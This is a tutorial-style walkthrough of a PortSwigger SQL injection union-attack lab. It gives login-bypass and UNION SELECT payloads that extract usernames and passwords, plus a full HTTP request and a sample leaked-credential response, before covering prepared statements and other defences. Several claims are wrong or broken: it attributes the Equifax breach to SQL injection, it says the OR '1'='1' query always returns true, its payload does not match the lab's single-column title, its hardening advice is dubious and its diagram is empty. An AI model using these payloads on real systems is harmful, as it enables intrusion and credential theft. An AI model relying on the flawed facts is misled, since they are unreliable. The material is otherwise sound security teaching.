

## Introduction to SQL Injection

SQL Injection is a type of cyberattack used to exploit vulnerabilities in web applications that utilize SQL databases. This attack allows an attacker to insert malicious SQL statements into input fields, which can then be executed by the database. The goal is often to gain unauthorized access to sensitive information, manipulate data, or even take control of the entire database.

### What is SQL?

Structured Query Language (SQL) is a programming language designed for managing data held in a relational database management system (RDBMS). It provides a means to query, update, and manage data within these systems. SQL is widely used in various applications, including web applications, where it interacts with databases to retrieve and store data.

### Why Does SQL Injection Matter?

SQL Injection attacks are significant because they can lead to severe consequences, such as:

- **Data Theft**: An attacker can extract sensitive information like usernames, passwords, credit card details, etc.
- **Data Manipulation**: An attacker can modify or delete data within the database.
- **Privilege Escalation**: An attacker might gain elevated privileges, allowing them to execute commands on the server.
- **Denial of Service (DoS)**: An attacker can cause the database to crash or become unresponsive.

### How Does SQL Injection Work?

SQL Injection occurs when an attacker injects malicious SQL code into a query that is executed by the database. This typically happens through input fields in a web application, such as search boxes, login forms, or other user inputs.

#### Example Scenario

Consider a simple login form where a user enters their username and password. The backend SQL query might look something like this:

```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```

If the application does not properly sanitize the input, an attacker could inject SQL code to bypass authentication. For instance, entering `username' OR '1'='1` as the username would result in the following query:

```sql
SELECT * FROM users WHERE username = 'username' OR '1'='1' AND password = 'password';
```

This query will always return true, allowing the attacker to log in without knowing the correct password.

### Real-World Examples

#### Recent Breaches

One notable example of SQL Injection is the breach of the Equifax credit reporting agency in 2017. Hackers exploited a vulnerability in the Apache Struts framework, which allowed them to inject SQL code and steal sensitive data from millions of customers.

Another example is the breach of the Adult Friend Finder website in 2015, where attackers used SQL Injection to steal personal information from over 400 million users.

### Background Theory

To understand SQL Injection more deeply, it's essential to know how SQL queries work and how they interact with databases.

#### SQL Queries

A SQL query is a statement that retrieves, inserts, updates, or deletes data from a database. Common SQL commands include:

- **SELECT**: Retrieves data from the database.
- **INSERT**: Adds new data to the database.
- **UPDATE**: Modifies existing data in the database.
- **DELETE**: Removes data from the database.

#### Database Structure

Databases are organized into tables, which contain rows and columns. Each row represents a record, and each column represents a field within that record. For example, a `users` table might have columns for `username`, `password`, `email`, etc.

### Union-Based SQL Injection

Union-based SQL Injection is a specific type of SQL Injection attack that exploits the UNION operator in SQL. The UNION operator combines the results of two or more SELECT statements into a single result set.

#### What is UNION?

The UNION operator is used to combine the results of two or more SELECT statements. The combined result set includes all distinct rows from both SELECT statements. For example:

```sql
SELECT column1 FROM table1
UNION
SELECT column1 FROM table2;
```

This query returns all distinct values from `column1` in both `table1` and `table2`.

### Lab Setup

In this lab, we will be working with a web application that has a SQL Injection vulnerability in the product category filter. The application returns the results of the query in its response, allowing us to use a union attack to retrieve data from other tables.

#### Accessing the Lab

To access the lab, follow these steps:

1. Visit the URL: `https://portswigger.net/web-security`.
2. Click on the "Sign Up" button to create an account.
3. Log in to your account.
4. Navigate to the "Academy" section.
5. Select the "Learning Path".
6. Choose "SQL Injection".
7. Select "Union Attacks".
8. Open the lab titled "SQL Injection Union Attack, retrieving multiple values in a single column".

### Exploiting the Vulnerability

Let's walk through the process of exploiting the SQL Injection vulnerability in the product category filter.

#### Step 1: Identify the Vulnerable Input Field

The first step is to identify the input field that is vulnerable to SQL Injection. In this case, it is the product category filter.

#### Step 2: Craft the Malicious Input

We need to craft an input that will inject SQL code into the query. For example, we can enter the following input in the product category filter:

```
' UNION SELECT username, password FROM users--
```

This input will cause the application to execute the following SQL query:

```sql
SELECT * FROM products WHERE category = '' UNION SELECT username, password FROM users--;
```

#### Step 3: Analyze the Response

After submitting the input, the application will return the results of the query. The response should include the usernames and passwords from the `users` table.

### Complete Example

Let's look at a complete example of the HTTP request and response.

#### HTTP Request

```http
GET /filter?category='%20UNION%20SELECT%20username,%20password%20FROM%20users-- HTTP/1.1
Host: vulnerable-app.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 01 Mar 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Product Categories</title>
</head>
<body>
    <h1>Product Categories</h1>
    <ul>
        <li><strong>Username:</strong> admin</li>
        <li><strong>Password:</strong> admin123</li>
        <li><strong>Username:</strong> user1</li>
        <li><strong>Password:</strong> user123</li>
        <!-- More entries -->
    </ul>
</body>
</html>
```

### Mermaid Diagram

Here is a mermaid diagram illustrating the flow of the SQL Injection attack:



### Pitfalls and Common Mistakes

When performing SQL Injection attacks, there are several common mistakes to avoid:

- **Incorrect Syntax**: Ensure that the injected SQL code is syntactically correct.
- **Missing Semicolons**: Some databases require semicolons to terminate SQL statements.
- **Commenting Out Remaining Code**: Use comments (`--`) to ensure that the remaining part of the original query is ignored.

### How to Prevent / Defend

#### Detection

To detect SQL Injection vulnerabilities, you can use tools like:

- **Static Analysis Tools**: Tools like SonarQube, Fortify, and Veracode can analyze your code for potential SQL Injection vulnerabilities.
- **Dynamic Analysis Tools**: Tools like Burp Suite, OWASP ZAP, and SQLMap can test your application for SQL Injection vulnerabilities.

#### Prevention

To prevent SQL Injection attacks, follow these best practices:

- **Use Prepared Statements**: Prepared statements ensure that user input is treated as data rather than executable code.
- **Parameterized Queries**: Use parameterized queries to separate SQL logic from user input.
- **Input Validation**: Validate and sanitize all user input to ensure it meets expected formats and lengths.
- **Least Privilege Principle**: Ensure that the database user has the minimum necessary permissions to perform its tasks.

#### Secure Coding Fixes

Here is an example of a vulnerable code snippet and its secure counterpart:

**Vulnerable Code**

```php
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($connection, $query);
```

**Secure Code**

```php
$username = $_POST['username'];
$password = $_POST['password'];

$stmt = $connection->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

### Configuration Hardening

To further harden your application against SQL Injection attacks, consider the following configurations:

- **Disable SQL Injection Vulnerabilities in Web Servers**: Configure web servers to disable features that can be exploited for SQL Injection.
- **Enable Error Reporting**: Enable error reporting to catch and address SQL Injection attempts.
- **Use Web Application Firewalls (WAFs)**: WAFs can help detect and mitigate SQL Injection attacks.

### Conclusion

SQL Injection is a serious threat to web applications that rely on SQL databases. By understanding how SQL Injection works, identifying vulnerable input fields, and crafting malicious inputs, attackers can exploit these vulnerabilities to gain unauthorized access to sensitive data. However, by implementing proper security measures, such as using prepared statements, validating user input, and configuring web servers securely, you can significantly reduce the risk of SQL Injection attacks.

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs focused on SQL Injection, including union-based attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that demonstrates common web application vulnerabilities, including SQL Injection.

By mastering SQL Injection techniques and defenses, you can better protect web applications from these types of attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/07-Lab 6 SQL injection UNION attack retrieving multiple values in a single column/00-Overview|Overview]] | [[02-SQL Injection UNION Attack|SQL Injection UNION Attack]]
